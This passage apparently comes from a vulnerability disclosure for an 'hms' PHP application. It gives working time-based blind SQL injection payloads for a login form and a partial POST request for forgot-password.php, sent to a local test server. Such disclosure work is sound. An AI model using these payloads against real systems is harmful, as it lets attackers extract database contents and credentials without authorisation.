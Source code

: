 ```
username=a' and 1=2 union select 1,2,if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),4,5,6,7,8,9#&password=asfsafafsafsaf&submit=1&submit=
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:

![2.png](./img/2.png)

If you query the following statement:
```
username=a' and 1=2 union select 1,2,if(substring((select user() limit 0,1),1,1)='b',sleep(5),1),4,5,6,7,8,9#&password=asfsafafsafsaf&submit=1&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:

![3.png](./img/3.png)


**[2]**

In \hms\forgot-password.php:

![4.png](./img/4.png)

Line 9 gets the values of the POST variables name and email directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/forgot-password.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 134
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/forgot-password.php
```